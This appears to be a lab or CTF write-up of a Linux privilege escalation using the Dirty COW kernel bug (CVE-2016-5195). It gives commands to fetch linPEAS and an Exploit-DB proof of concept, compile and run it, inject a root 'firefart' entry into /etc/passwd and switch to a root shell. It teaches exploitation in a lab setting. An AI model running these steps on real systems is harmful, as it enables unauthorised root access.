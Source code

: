 # Privilege Escalation via Dirty COW (CVE-2016-5195)

## Introduction

In this project, we performed a **local privilege escalation** on a vulnerable Linux machine using the **Dirty COW vulnerability (CVE-2016-5195)**. This kernel vulnerability allows an unprivileged local user to gain **root access** by exploiting a race condition in the `copy-on-write` mechanism of memory management.

---

## Step-by-Step Exploitation

### 1. Enumeration with `linpeas.sh`

After gaining initial access as the low-privileged user `laurie`, we uploaded and executed `linpeas.sh` to enumerate the system for privilege escalation vectors:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
scp linpeas.sh laurie@192.168.56.101:~/
chmod +x linpeas.sh
./linpeas.sh
```
---

linPEAS scanned the system and highlighted the following vulnerability:

```
[+] [CVE-2016-5195] dirtycow 2

   Exposure: highly probable
   Tags: debian=7|8, ubuntu=14.04|12.04, ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839

```
This confirmed the target kernel was vulnerable to Dirty COW.

### 2. Preparing the Exploit
We downloaded a Dirty COW proof-of-concept (PoC) exploit (e.g., the "firefart" variant from Exploit-DB):
```
wget https://www.exploit-db.com/download/40839 -O dirty2.c
gcc -pthread dirty2.c -o dirty -lcrypt

```

#### The exploit works by:

Overwriting the /etc/passwd file to inject a new root user with a known password hash. The injected user is typically named firefart.

### 3. Executing the Exploit

Running the exploit binary:
```
./dirty
```
It successfully created the following user entry in /etc/passwd:
```
firefart:<password-hash>:0:0:pwned:/root:/bin/bash
```
This gives firefart UID 0, effectively making it a root user.

### 4. Privilege Escalation to Root
Switching to the firefart user:
```
su firefart
password:(password entered in the exploit)
```
Now we had root shell access on the target system.

## Cleanup
To avoid leaving the system in a compromised state

Removed the created firefart user.

Restored the original /etc/passwd file (if backed up by the exploit).

Deleted exploit binaries and scripts.

